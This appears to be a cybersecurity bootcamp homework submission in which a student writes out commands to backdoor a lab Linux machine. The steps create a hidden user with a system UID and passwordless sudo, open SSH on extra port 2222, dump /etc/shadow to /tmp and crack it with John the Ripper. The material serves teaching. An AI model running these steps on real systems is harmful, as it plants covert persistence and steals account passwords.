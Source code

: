 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    ```
    adduser sysd --no-create-home
    ```


2. Give your secret user a password: 
    - `hack0rz'

3. Give your secret user a system UID < 1000:
    ```
    usermod -u 200 sysd
    ```

4. Give your secret user the same GID:
    ```
    groupmod -g 200 sysd
    ```

5. Give your secret user full `sudo` access without the need for a password:
    ```
    visudo
  
    ```
    - gain access to sudoers file to edit and add the following line:

        - sysd  ALL=(ALL) NOPASSWD:ALL

6. Test that `sudo` access works without your password:
    - su to sysd user profile
    ```
    sudo su sysd
    whoami
    sudo -l
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```
    nano /etc/ssh/sshd_config
    ```
    - once inside the config file, added the following uncommented line under Port 22
        - **Port 2222**
    - also uncommented Port 22 so that both ports are open then configured the firewall to allow port 2222 access to SSH
    ```
    ufw allow 2222/tcp
    ```
    - restarted the sshd service
    ```
     systemctl restart sshd
    ```
    - confirmed status of sshd service
    ```
    systemctl status sshd
    ```
    - confirmed server was not listening on port 22 and port 2222.

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    ```
    systemctl restart sshd
    ```

2. Exit the `root` account:
    ```
    exit
    ```

3. SSH to the target machine using your `sysd` account and port `2222`:
    ```
    ssh sysd@192.168.6.105 -p 2222
    ```

4. Use `sudo` to switch to the root user:
    ```
    sudo su
    ```

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:
    ```
    ssh sysd@192.168.6.105 -p 2222
    ```


2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:
    - escalate priveleges
    ```
    sudo su
    ```
    - once I am root, copied the /etc/shadow file to the tmp directory
    ```
    cat /etc/shadow > /tmp/shadow.txt
    ```
    - Ran john the ripper on the shadow.txt file.
    ```
    john /tmp/shadow.txt
    ```

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

